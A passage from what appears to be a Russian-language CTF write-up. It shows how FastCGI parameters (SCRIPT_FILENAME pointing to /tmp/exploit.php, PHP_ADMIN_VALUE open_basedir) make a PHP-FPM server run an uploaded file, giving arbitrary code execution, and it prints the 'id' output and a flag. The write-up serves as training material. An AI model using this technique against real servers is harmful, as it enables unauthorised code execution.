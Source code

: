 - `REQUEST_METHOD: GET`
- `SCRIPT_FILENAME: /tmp/exploit.php` — указываем имя файла
- `PHP_ADMIN_VALUE: open_basedir=/tmp/` — задаём корневую директорию PHP (без этой опции может не работать, так как часто на серверах PHP ограничивают внутри какой-то одной директории)

Передаём их и читаем файл `/tmp/result` — там будет результат выполнения нашей программы. Мы исполняли команду `id` и получили следующий результат:

```
uid=1000(resolver) gid=1000(resolver) groups=1000(resolver)
```

Отлично, это третья и последняя уязвимость — выполнение произвольного кода на сервере. Ищем второй флаг c помощью листинга директорий и находим его так же в `/tmp/`:

```
ctfcup{w0w_1ns4n3_p4ck3ts_cr4ft3r}
```
